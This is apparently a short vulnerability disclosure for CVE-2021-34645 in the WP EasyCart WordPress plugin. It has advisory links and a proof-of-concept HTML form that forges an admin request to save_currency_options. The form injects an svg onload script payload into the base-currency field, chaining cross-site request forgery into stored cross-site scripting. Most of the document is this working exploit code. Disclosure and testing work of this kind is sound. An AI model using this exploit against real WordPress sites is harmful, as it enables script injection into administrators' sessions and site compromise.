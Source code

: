 <h2>CVE-2021-34645</h2>

The Shopping Cart & eCommerce Store WordPress plugin is vulnerable to Cross-Site Request Forgery via the save_currency_settings function found in the ~/admin/inc/wp_easycart_admin_initial_setup.php file which allows attackers to inject arbitrary web scripts, in versions up to and including 5.1.0.

Hyperlink:<br>
`https://plugins.trac.wordpress.org/browser/wp-easycart/trunk/admin/inc/wp_easycart_admin_initial_setup.php?rev=2463792#L240`
`https://www.wordfence.com/vulnerability-advisories/#CVE-2021-34645`

POC:<br>
`				<html><br>
					<body><br>
					<form action="http://ip:port/wp-admin/admin-ajax.php" method="POST"><br>
						<input type="hidden" name="action" value="ec_admin_ajax_save_currency_options" /><br>
						<input type="hidden" name="ec_option_base_currency" value="USD&quot;><svg/onload=alert(/xss/)>" /><br>
						<input type="hidden" name="ec_option_show_currency_code" value="0" /><br>
						<input type="hidden" name="ec_option_currency" value="$" /><br>
						<input type="hidden" name="ec_option_currency_symbol_location" value="1" /><br>
						<input type="hidden" name="ec_option_currency_negative_location" value="1" /><br>
						<input type="hidden" name="ec_option_currency_decimal_symbol" value="." /><br>
						<input type="hidden" name="ec_option_currency_decimal_places" value="2" /><br>
						<input type="hidden" name="ec_option_currency_thousands_seperator" value="," /><br>
						<input type="hidden" name="ec_option_exchange_rates" value="EUR=.73,GBP=.6,JPY=101.9" /><br>
						<input type="submit" value="Submit request" /><br>
					</form><br>
					</body><br>
				</html>`

